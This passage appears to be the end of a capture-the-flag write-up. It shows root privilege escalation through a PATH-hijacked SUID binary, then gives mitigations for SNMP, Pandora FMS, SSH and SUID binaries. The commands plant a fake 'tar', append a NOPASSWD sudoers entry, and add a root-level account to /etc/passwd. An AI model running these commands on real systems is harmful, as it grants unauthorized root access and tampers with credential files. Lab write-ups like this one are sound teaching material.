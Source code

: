 - compile the `tar.c`

```bash
 gcc /tmp/tar.c -o /tmp/tar
```

- then we prepend `tmp` directory to `PATH` to make it called first when service will be called

```bash
export PATH=/tmp:$PATH
```

when binary is executed it should spawn a root shell.

![image.png](image%2031.png)

I noticed that we cannot run `gcc` command so let’s create just a bash file:

```bash
echo 'echo "matt ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > /tmp/tar
```

```bash
sudo -l
```

![image.png](image%2032.png)

OR

```bash
openssl passwd 123456
```

```bash
echo 'root2:$1$kIVANWfJ$4Xd7pmW5OLVBDu.ZT52iV.:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Then run SUID binary:

![image.png](image%2033.png)

**Now we are root!**

## Mitigation

- **SNMP Service Hardening:**
    - **Disable SNMP if not required**: If the SNMP service is not needed, it should be disabled to reduce the attack surface.
    - **Use SNMP v3**: SNMP v1 and v2c send community strings (credentials) in plaintext. SNMP v3 supports authentication and encryption, significantly improving security.
    - **Strong Community Strings**: Use complex, unpredictable community strings for SNMP to prevent unauthorized access. Avoid using default strings like `public` or `private`.
- **Web Application Security (Pandora FMS):**
    - **Sanitize User Input**: Ensure proper input validation and sanitization are implemented on all user inputs to prevent SQL injection attacks.
    - **Use Prepared Statements**: Ensure that database queries use prepared statements or parameterized queries to mitigate SQL injection vulnerabilities.
    - **Patch Vulnerabilities**: Regularly update and patch web applications, including Pandora FMS, to address known vulnerabilities, especially those related to RCE (Remote Code Execution) and SQL injection.
    - **Limit Web Application Permissions**: Limit the web application's access rights to the database and system to minimize the impact of any potential exploitation.
- **SSH Security:**
    - **Limit SSH Access**: Restrict SSH access to trusted IP addresses and ensure that only authorized users are allowed to access the service.
    - **Monitor SSH Logs**: Regularly monitor and analyze SSH logs for any suspicious login attempts.
- **Privilege Escalation Mitigation (SUID Binaries):**
    - **Review and Remove Unnecessary SUID Binaries**: Regularly audit and remove any unnecessary SUID binaries from the system. Ensure that only trusted and essential binaries have the SUID bit set.